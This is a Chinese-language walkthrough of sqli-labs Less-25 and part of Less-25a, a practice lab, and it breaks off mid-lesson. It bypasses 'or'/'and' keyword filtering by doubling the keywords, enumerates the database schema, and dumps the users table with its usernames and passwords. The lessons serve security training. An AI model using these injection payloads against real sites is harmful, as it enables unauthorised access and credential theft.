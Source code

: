 ?id=1"

Your Login name:Dumb  
Your Password:Dumb

确定为单引号字符型注入

可以使用双写注入

?id=1' OorR 1 = 1--+

?id=1' aadnnd 1=1 --+

这样就可以绕过过滤了

?id=33' union select 1,2,3' 返回2，3

?id=21' union select 1,database(),3 and '

返回数据库名security

?id=99' union select 1,group_concat(table_name),3 from infoORrmation_schema.tables where table_schema='security' '

返回：emails,referers,uagents,users

?id=99' union select 1,group_concat(column_name),3 from infoORrmation_schema.columns where table_schema='security' aANDnd table_name='users' '

返回：id,username,password

?id=99' union select 1,group_concat(concat_ws(':',username,passwoORrd)),3 from users -- +

返回：Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:456,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4,【rr:ee,admin#:111111,admin'#:111】（这些是Less-24写入的新用户名和密码）

## Less-25a

**过滤or、and-双写注入-数字型**

注入以下内容，以下内容全部网页都回显错误，说明该网页是数字型注入。

?id=1'--+  
?id=1')--+  
?id=1'))--+  
?id=1"--+  
?id=1")--+

注入：?id=1 OorR 1 = 1--+ 返回正常

?id=-1 union select 1,2,3' 返回2，3

?id=-1 union select 1,database(),3 and '

返回数据库名security

?id=-1 union select 1,group_concat(table_name),3 from infoORrmation_schema.tables where table_schema='security' '

返回：emails,referers,uagents,users

